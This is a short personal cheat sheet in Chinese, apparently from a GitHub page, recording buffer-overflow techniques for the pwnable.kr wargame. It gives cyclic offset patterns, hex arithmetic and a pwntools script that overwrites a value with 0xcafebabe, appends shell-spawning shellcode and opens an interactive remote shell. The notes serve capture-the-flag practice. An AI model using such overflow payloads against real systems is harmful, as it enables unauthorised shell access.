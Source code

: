 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：
>>> cyclic(52)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)
'0x11ccf9dc'

echo $((0x21DD09EC))
568134124

##### pwntools起手式

```
from pwn import *

# 0xcafebabe

r = remote('pwnable.kr', '9000')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```

